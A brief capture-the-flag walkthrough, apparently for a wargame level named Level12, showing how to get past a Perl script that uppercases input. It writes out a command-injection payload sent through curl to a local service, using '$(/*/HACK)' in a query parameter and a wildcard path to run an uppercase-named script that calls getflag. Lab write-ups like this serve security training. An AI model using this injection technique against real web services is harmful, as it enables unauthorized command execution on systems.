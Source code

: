 # Level12

Perl again... But this the script will change to uppercase any character we input. To bypass this we'll create a script with an uppercase name.
>`echo '/bin/getflag > /tmp/flag' > /tmp/HACK && chmod 777 /tmp/HACK`

Let's send our query.
>`curl 'localhost:4646/?x=$(/*/HACK)'`

Get the flag.
>`cat /tmp/flag`
